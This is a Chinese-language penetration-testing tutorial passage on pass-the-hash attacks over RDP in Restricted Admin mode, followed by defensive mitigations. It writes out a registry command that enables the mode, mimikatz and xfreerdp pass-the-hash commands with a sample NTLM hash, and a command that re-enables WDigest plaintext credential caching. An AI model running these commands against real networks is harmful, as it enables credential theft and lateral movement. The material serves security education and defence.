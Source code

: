 如果目标支持 Restricted Admin RDP 模式，那么可以通过如下命令进行开启：

```
REG ADD HKLM\System\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin /t REG_DWORD /d 00000000 /f

执行以上命令开启了 " Restricted Admin RDP " 模式后，可以执行如下命令查询是否开启成功。值为 0，代表开启; 值为 1，代表关闭

REG query "HKLM\System\CurrentControlSet\Control\Lsa" | findstr "DisableRestrictedAdmin"
```

条件：

- 目标机器可以在 Restricted Admin RDP 模式远程登录。
- 要求客户机器（被控机器）也支持 Restricted Admin RDP 模式
- 连接的用户凭据必须是本地管理员组中的用户（本地普通用户不行）

攻击：

```
privilege::debug
sekurlsa::pth /user:administrator /domain:192.168.72.163 /ntlm:58ff35b4831f039d108d553e68856650 "/run:mstsc.exe /restrictedadmin"

xfreerdp /v:192.168.72.158 /u:administrator /pth:58ff35b4831f039d108d553e68856650
```

需要注意的是，如果在 windows 上使用 mimikatz 进行 PTH with RDP 攻击，那么登陆的用户将会是启动 cmd 进程的用户，而不是我们指定的用户，且无法更改。如下图所示，登录用户被锁死为 WIN10-01$ ，而不是我们指定的 administrator ，这是因为这个 cmd 进程是 system 用户启动的，也就是域用户 WIN10-01$ 。所以后续认证将会失败。

![image-20250122145051897](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20250122145051897.png)

使用 xfreerdp 不需要考虑这个问题，如下图：

![image-20250122143828012](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20250122143828012.png)

##### Pass The Hash 增强保护

- 注销时清除凭据（防止攻击者获取用户 hash ）

确保用户注销后清除在 LSASS 内存中缓存用户的明文凭据、NTLM 密码散列、Kerberos TGT 票据等

- 从 LSASS 内存删除明文凭证（防止攻击者获取用户 hash ）

将明文凭证从 LSASS 内存中移除，攻击者无法使用 mimikatz 工具获得明文凭证，该功能是通过禁用 Wdigest 认证来实现的，因此默认情况下，Windows 8.1 和 Windows Server2012R2 高版本系统是没有 HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest\UseLogonCredential 注册表键，说明禁用了 Wdigest 认证，但是如果管理员手动增加这个键，并且赋值为1，即使打了补丁，也能抓到明文凭据，如下命令：

```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
```

- 引入了新的 SID （防止攻击者针对本地用户进行的PTH攻击）
  - LOCAL_ACCOUNT（S-1-5-113）：所有本地帐户继承此 SID
  - LOCAL_ACCOUNT_AND_MEMBER_OF_ADMINISTRATORS_GROUP（S-1-5-114）：所有管理员组的本地帐户继承此 SID

网络管理员可以通过组策略设置 “拒绝从网络访问此计算机” 和 “拒绝通过远程桌面服务登录” 这两个安全选项来禁止本地账户通过远程桌面和网络访问计算机。但是**域用户不受影响**，因此，补丁引入的这两个新的 SID 对于本地账号的哈希传递攻击有一定缓解作用，不过需要网络管理员手动配置组策略才能生效。
